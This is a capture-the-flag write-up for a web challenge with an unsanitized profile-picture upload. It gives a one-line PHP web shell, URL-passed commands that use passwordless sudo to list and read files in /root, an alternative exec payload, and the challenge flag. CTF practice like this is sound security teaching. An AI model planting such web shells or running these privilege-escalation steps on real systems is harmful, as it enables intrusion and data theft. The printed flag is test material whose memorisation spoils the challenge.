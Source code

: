 # Problem
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, presenting an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.  
**Hint 1:** File upload is not sanitized  
**Hint 2:** Whenever you get a shell on a remote machine, check `sudo -l`

# Solution
As mentioned in the challenge, the file upload isn't sanitized, so let's build a PHP payload for access. You can use any editor (e.g., nano, mousepad).

```bash
gedit test.php
```

Put this code inside:

```php
<?php system($_GET['cmd']); ?>
```

Upload it and check for a successful message. Once received, add `/uploads/test.php?cmd=sudo -l` to the URL; this will show that no password is needed for using sudo in this challenge.  
Use `/uploads/test.php?cmd=sudo ls /root` to list files in the root directory (i.e., `flag.txt`).  
You can extract it using `/uploads/test.php?cmd=sudo cat /root/flag.txt`.

Alternatively, you can replace the payload with:

```php
<?php echo exec('sudo cat /root/flag.txt'); ?>
```

Upload this payload, then just navigate to `/uploads/test.php`; this will give you the flag.

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`
